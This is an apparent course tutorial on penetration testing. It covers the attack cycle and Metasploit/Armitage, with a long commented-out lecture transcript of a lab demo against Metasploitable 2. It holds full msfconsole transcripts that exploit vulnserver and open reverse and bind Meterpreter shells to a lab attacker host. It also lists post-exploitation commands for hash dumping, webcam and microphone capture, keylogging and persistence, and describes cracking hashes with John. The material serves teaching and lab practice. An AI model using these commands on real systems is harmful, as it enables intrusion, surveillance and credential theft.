

# Penetration Testing and Software Security

We are going to cover everything from information collecting and exploitation and the post
exploitation. In penetration testing, a pentester is basically an ethical hacker, testing if the client networks and computers have vulnerabilities and can be hacked.
The pentester pretty much does similar things to attacks done by the real hackers, but for good reasons.
For simplicity of explaining, in this tutorial we oftem take the role of hackers trying to attack the targets. 



## Cyber Attack Cycle
We first look at the cyber attack cycle. We all know now cyber attacks are very serious.
Fighting cybercrimes is among FBI's top three priorities.
We want to think like an adversary so that we can understand attacks.
Why do we want to understand the attacks?
Because we have to understand cyber attacks so that we can actually design our defense to
counter those attacks. If you do not the attacks, how can you design the defense?
As a penetration tester,  you actually also need to
understand attacks so as to test if computers and networks are vulnerable.

Now let's have a look at the cyber attack cycle to see a big picture of how attacks are performed.
We will talk about what is going on within the
hacker's world and how they do everything.
A cyber attack can have three phases: information collecting, exploitation and post-exploitation.


### Phase 1: Information collecting
The first phase is the information connecting.
When an attacker attacks you, they need to know you to some extent, for example, your email address or the IP address of your computer.
An IP address has the format of x.x.x.x, where x is an integer from 0 to 255.
So you can see that the attacker may randomly pick up some IP addresses to attack.
The IP address alone may not be enough.
The attacker may also want to know what servers (which are software) are running at an IP. 

One popular way to find servers running at an IP is port scanning.
What is a port?
A computer may run multiple servers such as web server and email server.
Port numbers are used to differentiate different servers so that when a message arrives at the computer,
the computer knows where to forward the message, e.g., web server or email server.
Of course, the message (actually called packet) shall contain the IP address of the computer and port number indicating the server.
In port scanning, carefully crafted messages are sent to possible ports at a computer.
If the server software running at a port reponds, there is a service running at that port.
A particular port is often allocated to a specific server, for example, port 80 corresponds to the http web server.

### Phase 2: Exploitation
Once the attaker gets the information and determines the target, it now can perform the exploitation.
In this stage there are many different exploits.
In the picture, three examples are shown.
The first one is phishing attack, in which emails are sent to potential victims asking victims to click links or attachments so as to solicit critical information such as passwords from the victims.
The attacker may use social engineering tricks and pretend to be authorities or friends so as to trick the victims to willingly surrender information via fake websites or other means.
Whenever someone asks you for money or credentials, think twice and double check! Do not easily click an attachment of an email since the attachment may be malware, which could erase files on your disk or perform the cryptoLocker ransomware attack. In a cryptoLocker ransomware attack, the attacker encrypts user files and asks the victim for ransom if the victim wants their files back decrypted. The malware can also be a backdoor, which is basically a server to be installed on the victim computer and allows the attacker to log into the victim computer later.

Another example is the brute force password guessing attack.
When an attacker tries to log into your web account, the attacker may try all possible credentials one by one and
see which one works. You may think this will not work. The truth is this is a popular way of doing the attack.
It often succeeeds since people choose easy passwords such as *abc123*. Make your password complicated so that it is hard to guess.

The buffer overflow attack is an advanced attack. The server software may have a specific vulnerability called buffer overflow vulnerability. When the attacker sends a message embedded with malicious code to the server, the server code may save the malicious message into a buffer within a function for further processing.
As we know, when the function is done, it returns to next instruction after the function call.
The return address of the function is often stored in the computer memory. 
If the malicious message is long and the buffer is small, the malcious message may overflow the buffer and overwrite the function's return address so that the ovrwritten return address now points to the malcious code in the malicious message.
Now when the function is done and returns, the malicious code in the malicious message gets running.


The buffer overflow vulnerability often occurs in software written in C or C++. Python is designed to avoid the buffer overflow vulnerability although Python can be used to perform the buffer overflow attack.

### Phase  3: Post Exploitation
Once the attacker gets inside the victim computer, what else can they do?
The attackers wants profit from the exploitation.
That's why actually post exploitation is very important to the hackers.

The post exploitation can be escalating privileges.
Sometimes the attacker may be able to just compromise a normal user's account,
which doesn't have any kind of admin privilege.
The attacker will think about other ways to escalate their privileges so that they
can do more damages. 

The attacker may explore your computer, steal your data, and look around.
If they got enough privileges for example root/admin privilege
they may actually dump password hash and use John the Reaper to crack those password hashes so that they
get all the passwords.

The post exploitation can be setup of pivoting. What does that mean?
Sometimes the attacker may just be able to actually hack one computer within within an enterprise or within a school.
They want to utilize this compromised computer to hack into other computers. This is called pivoting.
Normally the school or the enterprise may not have enough funds to deploy defense systems inside of their campus.
Most of the defense such as firewall is set up at the the edge of the campus either the firewall.
Once the attacker is inside the campus network, they can do more damage.
They can use the compromised computer as stepping
stone to attack other computers or networks from inside.

## Introduction to Metasploit and Armitage
Please check this <a href="../FieldTrips">tutorial</a> on an introduction to Metasploit and Armitage.

## Post exploitation and meterpreter

Once into a computer, the attacker may collects sensitive information e.g., usernames and passwords.
How? One way is to use meterpreter, a Metasploit attack payload.
Meterpreter provides the attacker an interactive shell exploring the target machine and executing code.
For example, within meterpreter, *hashdump* can list all the usernames and the passwords.
Then use John the ripper to crack password hashes.


The attacker may also want to maintaining access to the compromsied computer
so that even if the compromised computer restarts, the attacker can still get in.
If access is not maintained, the attacker will have to exploit it from the beginning in case the hacked system is closed or patched
The best way of maintaining access is to install a backdoor.

### knock module against vchat

Here is what happens (armitage shows in the exploit window) when using the knock module without selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 19521
LPORT => 19521
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Started bind TCP handler against 192.168.1.19:19521
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:38211 -> 192.168.1.19:19521 ) at 2022-06-12 16:25:01 -0400
```

Here is what happens (armitage shows in the exploit window) when using the knock module with selecting *Use a reverse connection*
```
msf6 > use exploit/windows/vulnserver/knock
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
msf6 exploit(windows/vulnserver/knock) > set TARGET 0
TARGET => 0
msf6 exploit(windows/vulnserver/knock) > set LHOST 192.168.1.4
LHOST => 192.168.1.4
msf6 exploit(windows/vulnserver/knock) > set LPORT 9387
LPORT => 9387
msf6 exploit(windows/vulnserver/knock) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.1.4:9387 
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:9387 -> 192.168.1.19:49775 ) at 2022-06-12 18:53:35 -0400
```
### Meterpreter commands

Please a more complete list of Meterpreter commands <a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">here</a>.

- help
- getuid
- getsystem
- webcam_list
  - Enable webcam within VM (Devices -> Webcams -> Click the camera name)
- webcam_snap 
- webcam_stream
- screenshot
- record_mic
- keyscan_start
- keyscan_dump
- keyscan_stop
- shell
- Installing service Persistence and opening a persistent backdoor
  - Need system priviledge since it installs a service. Does not work since Windows 10/11 kills the malicious service automatically.

<!---
so you can see now once you
set up a paper team everything will just kind of go in from the beginning again
so this is the three important uh stages of uh several attack cycle then we will
see actually armature and metasploit can do all three stages of activities okay so here
let me go through all the kind of concepts again and quickly so as we can
see here the several attack cycle here and we have three cities the first stage is information collection for example
you can do uh post scanning or you can actually get information from other scanners
second you choose export right because you know what services are running on those computers from this first stage
now you can actually choose each plus see which one is the best exploit then of course at this
point you can also check maybe which one is best if it works then you deploy the
attack so that's the second stage and the third stage here so it's called a post-exploitation right so you perform
post-exploitation to actually gain from your attack and so here at least many many kind of
uh post-exploitation uh activities here so you can see here we have escalation your
privilege log keystroke and dump password hashes screen capture
camera streaming and a browser file system and you can also actually start a shell to interact with
your compromised computer and do whatever you want okay then last step is your setup of
pivots for example you can actually install more malware on the targeted computer so
that you will use the target computer as a stepping stone to attack from inside
okay so these are the three cycles i mean three stages of a
several attack cycle so here let's go over a few important uh
concepts here so remote explode means the target is on an internet
it's in a remote network and the attacker is not actually on a targeted computer right and uh the attacker wants
to attack from remote and uh from his own computer but the most of time you know
the attacker will not attack from their home they may actually actually sit in starbucks
shop and a sticker in maybe a library or maybe they hide behind a tour if you
know what is an anonymous communication network because they want actually hiding themselves from being tracked
right so that's called remote squad then we also mentioned that use credentials many
people think attacks hard but you can see here this one example i mean it's not hard to attack you can just try
potential kind of credentials right if you have a password at least uh which is popular then you can
actually try all the partition passwords one by one and see which one works right you can see this is a very simple attack
with open machine like a buffer workflow attack but you can see this one it's very simple and um so you can use this
one your demo and uh so sometimes as i mentioned the target may accept
actually credential hash and we also help pass the hash if the target accepts
credential cash okay and we also mentioned a claim center attack so in this case the user i
mean the target is a trick to click a link click attachment so that the
malware actually starts on the target computer directly so you do not need to actually send
the payload or the mirror through the connection to the target and the bad guy
i mean the user is just click on the uh link and uh actually this is a the most
popular attack okay other sophisticated attacks are not so popular as a this is a kind of a clan
center attack so this is the most efficient and effective popular attack climate center attack
reaching email okay right so now good so we have the concept of
the cyber attack cycle we know the three stages now i'm going to show you here
how we use armatage and the metaphor together to actually
perform these three stages of activities so that students have a big picture how
an attack may be performed in a while so first what is the measures plot i
know many people know we just go through everything here and the response is a penetration testing tool
aka hiking true and uh so in this case basically we are
treating penetration testing and hacking or asking hacking rights at the same thing
and because you know penetration testing is to test if a computer is available or
not so basically you are doing the same thing like a package and so we want to show
basically your employer that their computers are vulnerable so you can see
basically you are kind of a hacker although you are doing that
as you are asking to ask that to do right and um so basically something and it's
similar to ethical hack and so metaphor basically it's available within cadillac
linux and uh so metaspot can be used and the command line but the problems
when we teach those beginners right and particularly for example i was running
a gene server summer camp for high school students it's very hard to teach them those
commands because most of them are not used to command line commands that's why
i think i want to focus on the gui interface one good gui interface for magic sport
is called army touch so armor charge is a gui front end for
the meta support free world within armor charge you just click click click and everything's done you perform
all the 3d three series of activities and so basically
because it is a a good front end for metasploit right so
whatever you do you can armitage will be translated into metasploit commands
maybe other simple commands and um so what you can do in armor charge can also be done
with a magical command or some simple needs commands so basically they are kind of the same
thing but you know most people like gui that's why i think if you teach like a
the beginner's right and the gui is very important and so i have been
trying to find such kind of a uh easy interface and amateur is the solution
so here is a basically uh academics so candidates is
already installed with a metasploit uh framework and at this
point caddy is not allowed to be installed with armitage i use that
armature myself so you can see here basically so these tools can be accessed in this way so
first i found that when we use the methods plot and armor charge you better actually work as a
root okay because with root you can just try all the functionalities i'll tell you
basically you can use pseudo to do that um root and uh but anyway so here is how
you start it so this is a kind of a drag icon here means uh applications
so to start a messport you click here right this dragon icon then you will see the list
and you can see here number eight here is a the explosion tools when you click
here it will show you the list okay so then you can basically click the menu
splash army chart to start these two applications
excuse me okay so this is how you start it and uh
so let me show this one again here and once you start armitage
then you'll see this interface of course you may not see all the things
on this screenshot here so basically on the left
top here on the top left here you see all the modules
those modules are basically modules of metasploit as i mentioned
armitage is just the interface for multiplayer so they list all the modules
what are the modules those modules are for information collecting those modules are for
exploration these modules are actually for post explorations there are many
other kind of accessories over here but those are all from metaphors they just these lists here so that you can see
them directly now when you do some attack when you do some activities
then for example when you do the polar scanning right then they will list actually the targets here and uh within
this target panel here and also when you perform many activities then here the console
will show the results of each activity you did and you can see here we
have these services basically this will show you what kind of services
are available on this particular target so these are our monitoring interface
so i will show you how we can do it very simple so here are some notes when you
use this one so as i said uh when you actually use armatage you better work as a root and the easy way
to work as a root is uh you can start a montage with a pseudo right in a terminal right
and you just do pseudo armatage this kind of understands here so that's the amount will work in the background but
because it has the interface so you will see the interface and also i found that if armature cannot
start and most of the time the reason is that it cannot cannot clutter to the database
so to start a database the easiest way is that you just start manage plot by
clicking on the max folder icon here right uh here
right then you actually uh close it then you'll start america again and everything will
be okay and also a lot of note here is that so after armature started you better
actually configure here uh armor touch set explode rank for here so basically it's uh here so you
just click it here and you set up the exploded rank as per so that you can
use all uh exports whatever they are good or bad right
so here are some terms so within measures i mean within armatage you can do post scannings
and uh so the pod scan can be in map scans so if you know it so map is a
popular tool to scan all uh amp addresses
and see what the services are available on those ip addresses right so
the map is very kind of a popular and also mf so that's why actually uh armator
integrates the map scans with itself okay
then you also see ms f scans so in this case the armor charge will
combine a few megasport scans into one feature called the msf
scans so you can actually just find up all things for example you can find the services you can find out
maybe what kind of uh uh os running on those ips and many
other things okay so here the payload the payload because you as a the ethical
hacker or you as the penetration tester you want to actually attack the target and uh so when you want to attack the
target you want to send it your mirror to the target right and so that the mirror somehow
will run on the target so that mirror or scripts are called a pillow okay so this
is what the attacker will do and uh so they will send this to the
target the target will run the payload so the payload is a mirror of some other scripts
so the exported rank is what the exposed rank basically
within a major support of the armatage they run each spot some of the explosives it's
not so reliable means that it cannot actually work because it's too old okay
and uh so but in our case because we are just giving a demo right we just actually use
all possible attacks that's why as i mentioned before we want to set our
export rank as a poor so that we just using any kind of uh explosive
even per good excellent it doesn't matter we just try everything okay and this is very important because most
of the attacks for demo are not real right and so that we should actually start
the exploded rank as a pro so that we can actually try all attacks
so now let me show you how we use armitage to perform the three stage of a
several attack cycles scanning exploitation and post exploitation
so of course we need a target so in this case i'm using methods portable as a
target and the most portable particular version 2
is available as a virtual machine and it has a lot of vulnerabilities for
exercise and here we want to use this kind of example target because i don't want you to
hacker the real sense and i take no responsibility if you are captured after
this talk and you want to try everything right and so i want to actually see that
okay we are ready so here is the procedure right we configured everything everything works
so now we are going to do armature scanning so you can actually choose here
the hose here there's something called host here okay you click over there then you choose msf
scans then you can enter a single mp to scan that ip you can just
enter a ip range so that you can scan the whole fp range okay so after that you
know ms app scans are not as strong as a map
and so you may actually do more things with a map for example you can use mf scan to find out what kind of os runs on
data ip okay so then after that you can see here those font ip will be list
using this kind of icons within this uh target panel here okay
and uh so it's it would it would not be like this and uh like this one with lighting i'll tell
you what's that but it will show you an icon like a computer okay so now you can
just choose one and then you can try uh different attacks good so now we got to
the least of ips at least offer targets and you can select one you can select a minute to perform attack at the same
time but anyway so i'll i'm going to show you you can choose one to show to
do the attack right so let's see you just choose one then you choose one then you can perform the
attack so this stage is often confusing to many people but the armor charge
everything is much simpler the easiest way is like this so you actually here choose a text
then you you choose uh funded attacks so just click here the menu editor here then you just click
the sub menu item here and you will find a text so what this does is because we already
derived services available on this particular ip
through the first stage of information clutching on the port scanning so what find the text does is it will
actually search the metasploit export database and then see
which attacks which is plus match the
versions of those services so that's what it does you can see now you don't need to actually browse
the whole database of expose with the metaphor and the armor touch will actually do
this for you and you just need to click then it will try to find the matching attacks
now it will show you uh within a pop-up menu here and the founder attacks so now you can just
click the attack and perform the attack okay good so now you can see here so
basically this will reduce a lot of kind of confusion here right otherwise how can you find the other attacks through
the whole database of exploits with the meta plot this one does everything automatically
that's why i like it to show uh to beginners so here are a few examples right as i
mentioned that we can do blue photo attacks right and in this case the attacker enumerates a possible
uh attacks and then they just try all the i mean passwords and see what's
going on here right and so here the potential service for blue fox password
getting attack is a like ftp secure shell and http telnet everything here
and so you can just try right and as i mentioned so actually somebody in my lab use the password of
abc123 for secure shell server and so now the computer was hacked and this one
works so another one is a social engineer actually armitage can perform
fishing camping for you it has such actually kind of a capability okay so as
we know social engineering is a process of just extracting
sensitive information by tricks for example somebody send you the phishing links send you some other
kind of attachments or free websites right so this is a some examples for
attacks so now let's look at how we use armor charge for post exploitation
so basically you already found other attacks right you depot attacks
and the so the attack was successful once the attack is successful armitage
will show you available post actually exploitation modules you can also search
one by yourself okay so just doing maybe a few enter inputs and
you just you can find the all the post exportation modules then you can perform
the post exploitations okay so this is the whole process and as you
can see here i give you a few examples here and uh on post uh exploitation so once you are
in a computer right and uh as a penetration tester you want to actually for example collect uh possible hashes
then you will show to the employer see i mean i can get into your computer then this is all the hashes i got and i can
crack them okay and uh so you may want to think about
when you want to collect those hashes or you want to do other like maybe
camera streaming right you want to do other attacks so you need to actually stand
a mirror over there to the target so that you can interact with the mirror
on the compromised computer to do other post exploration activities easily so
you need such kind of a mirror installed on the target right that's why
so we should use a multiputer multipurpose is a metasploit attack
payload when you are able to stand this multiple kind of a payload to the target
this one implements a variety of kind of exploits and also the fighter
behaviors and by the sense so you can use a multiplier
do a lot of damages so i will show you here for example so within my temperature right so basically
you send it you send a payload now multiple is running then you can use a
hedge stump within multiplier and to dump other hashes then you can
use john reaper to crack other partial hashes and uh another poster
this for teaching example is how you maintain access so once you get into the
targeted computer you already compromise the targeted computer right and so you
want to maintain exercise right and you will show to the employer see okay later
after a few days i'm still actually can find out what you are doing over there i can still do damages that shows okay
they need to pay you more money right because you are very good uh as a penetration tester of course the
attacker wants to do the same thing they want to make access so that even the computer restarts then you can still
actually access the compromised computer that's why here the best way is to install a
vector so the mesh plot can use a multiplier payload to install
per system vector so that even the system restarts
you can still maintain access to the targeted computer
so here are a list of multiple commands so once you use this payload and it runs you can see
here you can do webcam list you can do webcam snap you can do webcam stream you can do
screenshot you can record a microphone you can actually do keystroke logging you can start a shell
you can install blackboard so that it will last forever of course maybe not okay
and so this one is very powerful and uh so you can interact with the the
multiplier kind of a payload and then to do all the tricks so this is a fun if you show to the students
so this one is about the screen capture so when you start the multiplier right
so you can uh actually enter those commands here so you can actually got the screen capture okay the screen right
it will be saved to some folder on your local computer that's very good and the message blog can also actually
do the uh other things like uh uh generating reports but uh you have to use the
professional version and it takes like a more than ten thousand dollars to gather the professional version but
anyway and um so it has such capabilities armitage also has that but you have to use the professional version
so now let me show you a demo here and we still have minutes we were late and uh so i think we still have some time
here and uh so here this demo set up like this and uh so we have the caribbean right
and uh we have this a manuscript tool we have they are running on virtualbox
and uh so i'll make sure caddy vm can ping the metasploit to vm so they are
uh working with each other good and uh so we are going to attack
this methodist photo 2 using the caddy yeah so here is a
the video i'm going to speed up maybe not this is just 10 minutes so here is my
uh screen right and uh so we start a virtual box
okay and uh you can see i'm starting caribbean
then i'm starting with this follow two i found you must have a nice laptop if your
laptop has only one cpu core and when you try to run multiple vms
it is a disaster so you want a distant uh laptop
to do this when you want to actually give demo to students and actually i don't know how to speed
up this process this is a new computer here but it's okay i think uh
we were late so we still have a few minutes yep you can go ahead and you can take us some extra time since we started
a little bit late dr phu okay yeah well here is only 10 minutes so we should be okay
and uh so now you can see this is the meta splatter 2 starting and this is a carry
vm starting i started them at same time maybe that was a bad idea because now
kind of a slow down
so if you guys want uh the cadillac and i configure this a lot i can actually
let me you can send me email i'm going to share you this category and uh so we actually configured this
caligram a lot i i also have windows 10 vm and for a lot of purpose for example showing
the camera trick and uh but that one requires another kind of thing
okay so here good so now our candy vm started
so i want to start the terminal here so this is the terminal and then because we want to start
uh armitage right we want to start our montage as a route so i'm going to the pseudo
hermitage and the sign so that it will start in the background but
because it has a gui interface we will see it
okay so you can see this in java so that's why it's not so fast
so this armature uses a basically mesh plot so it needs to
connect to the database used by merit support so here we are trying to clutter
to the database and also metasploit and then
let's see what will happen if you see collection reviews doesn't matter but basically now we are in a process now
you can see it cannot cloud the database this often happens it's okay and uh as i mentioned if you found this
you just need to start a messport
okay so i just because i just wanted to click clicking right and everybody can do this
so we start metasploit
then we exit so basically in this way we start the database so now if we start a
armature with a pseudo gain then everything will be normal
okay good and then you can see this interface we don't have anything here yet because we didn't have two port
scanners yet right so now we do port scanning we click
here before we do that i want to make sure actually the caddy vm and the middle for the two vm they can
ping each other so you can see here this is a kelly vm's ip
10.0. 2.14 this should be 10.0
dot 2.16.
okay so you can pin and now we can from kelly
yeah of course during your demo you don't need to do this and i just want to make sure everything's
okay and now we can do host scanning
okay so basically we try to expand uh all available services before we do that you
can see i'm set uh the extra rank as per because i want to try all attacks
now we do ms f scans and in this case i just discount one ip
which is it's a metaphor of twos ip so 100.2.16.
okay good so now it will scan
one icon will show up here you can see the finds so many services running on metaspotter 2.
i also want to use a map scan to
find out the os of this ip and of course you don't need to do that but
for fun let's just do that so it will show up this is a linux
okay so it's done we'll scan you you can see now it's linux good and now you can see this is all the
services we found you just right click and choose services it will show you all the services you can see we have so many
services running on minutes for the 2 pm with this ip 10.00.2.16.
and then you can see here it shows many other things here and so
what we are going to do now we are going to find the attacks as we mentioned we found other services we want to find
that matching explorers against those services so you just click over there
that you will find all possible potential right those may not work but
they are potential exploits
okay so now we are done you can see you will now see an attack manual
attached to each host but we have only one so you can see this attack so i'm going to show you a particular one
because this one will give us a nicer result here so this is a
kind of a irc right it's a communication kind of two and uh so this one basically
was installed with a factor somebody actually put a vector here for people to download so we are
going to you can see here i just pop up another manual click and i choose a reverse uh collection means i want to
use metal filter uh reverse tcp collection so that i can get into this computer so now you can see if
this one can start a shell this one is compromised the lighting
kind of uh image will show up here means it is compromised you can use commands
right because i started the shell and you can use command to do whatever you want
so now the the export is done i wanted to actually now do the
post exploitation so i'm going to just do you the show you the hashtag so here i'm going to search hashtag
within the post exploitation i'm going to choose the links one so i double click maybe just single
click i can remember we started one shell so that's called extension okay so station one which does launch
good then you will see all the hashes from these
compromise methods folder too and you just copy those hashes into a
file okay so i'm doing copy here
okay then you start an editor in this case i'm using actually the
kelly vms text editor
so you just copy everything over there and you remove the actual kind of symbol
over there right those are edited by actually armitage
and the hash is already in the required format of a
jungle reaper so you just remove those symbols over there now you save it
so i'm going to call this a hashtag cee
and receive it okay so now you can use john reaper to crack it
okay so i'm going to show you the file it's over there you can see the file is over there
because i already did this demo a few times so next i'm going to actually
paste a command to actually remove the previous results after that you just run this simple
command john cee
it will crack all the hashes you can see right the user has a user
password as password the user and this one cloud system has a password batman
so basically this is the whole process you can see you don't need to actually redo a lot of things
and so this is a step if you want to try yourself and here is a basically the description
of the vulnerability you can see here so this module explodes the malicious vector
that was added to the unreal rcd download archive somebody did this okay
and uh that's why basically it is vector we clutter the vector with standard payload so that our pillow will run
uh within a vector okay so that's what happens so that that's why we stand at the
temperature payload and the multiple preload will run over there that's why we can use the hedge dump and other
commands and so to summarize today's talk so you can see here
so as i think finally i found an intuitive kind of level demo for
beginners so we just do a few clicks and everybody can do this and
and also also armitage and the menace plot can be installed on carry so many product is
already uncanny armor touch basically can be installed by yourself
and so here are some references and the number five references is fun
and uh it'll show you camera stream other things it's quite actually quite simple
when you do this and so thank you and uh so now this is the end of my talk
and any question that answers this is great dr phil thank you so much
and it looks like you do have a couple questions coming in um from dr losavio dr zenwin
does the ease of these tools potentially expand the number of new cyber criminals
we might face so what i found out is like this
you you're actually uh concerned it's real but here is uh the deal
most of the explosives from the um community metaphors
are old so basically microsoft and uh most of the links distributors
and the mac be already checking the metasploit
database regularly and see how patches over there so if you want to buy those professional
versions right of mexico you have to spend a lot of money but you know
82 is double edged weapon if we even don't teach this right the
attacker will learn this so we better teach this so we know how to defend against them so that our students
understand the whole process right otherwise i found it's very hard to tell them what
an attack is and what is the whole process so with these two we are using old one i
recommend we don't use a like a real like a loud
new i mean zero day attack right and then we don't do that and i think it's fine but the
82 is double edged weapon but it's called has been over there like a 20 years i think at least 20 years
and uh so we better learn because everybody's learned including all the attackers
yeah so that's uh my answer to that question
if you have any other questions please feel free to unmute yourself or you can also
type your questions into the chat so dr phil will give it one a couple seconds like a minute to
see if you have any questions to come through but this has been very informative and great thank you
thank you
glad i'm on time
by the way um do you use the proxmox environment to
sort of build virtual machines for your teaching by any chance no we actually use something called we
have our own server range and so we are using
something called what is the uh we are using zen uh servers
and uh so we basically uh bought
a server and we actually using the zen servers and then we also using what is that the oxa what was the name
of that i forgot what is the one to manage the zen servers i cannot
remember i forgot so we actually have our own environment to install other virtual machines so all the things i
showed today can be performed on our server range and a virtual server range
and so everything actually was great and so everything can be done
within the server range what do you mean by that i can't
remember i forgot the name
let's kind of watch
let me press my luck for one last time um how how do you could you see any of
these tools being able to be translated down into
teaching or instruction for typical civilians or for
people in middle school things like that yes actually why did i do this
and these slides so i was actually doing uh jin server
so in a jin server i was trying to find out how i can explain to high school
students easily and uh so the final about the reason is if you ask
them to enter commands right the command line command is so hard because most of them never touched
those command line commands and uh so then so basically this is my solution and uh
i didn't actually teach this um to high school students last time but i'm going to do this this summer
and so i already did this for my current uh
class and uh so everything was fine everybody can actually follow the procedure because it's only a few clicks
right a few commands everybody at least can run the demo i just showed so i think
this will not be problem because in my class some of the students
were not computer science students and they really had poor knowledge about the computers
and so i'm going to use this for high school students and uh i think they will like it and uh so because just a few
clicks and uh so if you give all the comments right give all the steps i think they can follow it
right okay and this well it does put you on the spot but i i want to answer later
would you be able to share your curriculum with us if we were able to try and do this in our schools and our
communities you mean that in several one or what which one yeah well jean sarger yes ginseng
okay yes and uh maybe after this summer because the last summer i think we did a
too much uh um programming so so i think uh this one uh this time
you can send me email and i think uh at last we have to share everything through uh a website i think from what
is that the web website from us our singer from nfc website right and we right
cyber site that you can go to that houses examples of different
syllabi and lessons that you can share amongst the different
um you know pis in the you know with the different schools who are running the
gen cyber programs but if you want to get dr maybe dr phil if you wanted to post your email in
the chat or you know send it directly to uh dr la sabio um
that might help as well okay sure and you can search internet if you
need to fund me on the internet so i taught a really different concept here i think these two
so i'm going to use this one forever and because this one is easy to use i know actually i want to we we were going to
add our own module to uh mere explode so that we can show
all the other tricks easily and uh but we have to do this i think maybe
this coming semester i'm going to use the uh integrate our module so that everybody can use it and
uh so that's it will be available within armored touch but i think armor type the
the good interface is uh much easier for high school students and
for those beginners because you just you know do clicks and then i found that it's very
confusing if you ask students to use the multispot
commands and because they have to understand everything right we cannot understand the meaning between different commands
so so it's very hard to teach them a high level but you can see here when
we do clicks we focus on the constants not on the concrete commands
and instead by doing that they understand the concepts that's what they want for the beginners right sometimes
they don't need to understand details but we just want to motivate them to start a cyber security so that's what
i think uh for those beginners armor tart and the men's plot together is a
very good tool and um and uh metasploit itself is not so easy
for beginners i found it very confused at least i remember like 20 years ago when i was learning my disappoint it was
so convenient i don't know what the commands is for which one but what the purpose right
and uh so i don't have the bigger kind of a picture of what is going on over there so
i think it is good to teach beginners before
-->

# References
- v4L, <a href="https://www.hacking-tutorial.com/tips-and-trick/13-metasploit-meterpreter-file-system-command-you-should-know/#sthash.R7VFJW1l.dpbs">13 Metasploit Meterpreter File System Command You Should Know</a>
